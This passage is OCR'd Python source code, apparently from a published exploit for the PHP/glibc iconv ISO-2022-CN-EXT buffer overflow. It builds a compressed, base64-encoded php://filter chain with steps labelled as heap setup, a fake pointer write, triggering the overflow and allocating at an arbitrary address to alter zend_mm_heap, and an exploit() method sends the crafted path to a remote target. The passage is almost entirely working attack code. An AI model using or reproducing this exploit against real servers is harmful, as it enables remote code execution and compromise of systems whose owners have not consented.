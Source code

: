 ```python
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages) 
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
        except (ConnectionError, ChunkedEncodingError):
            pass
        
        msg_print()
```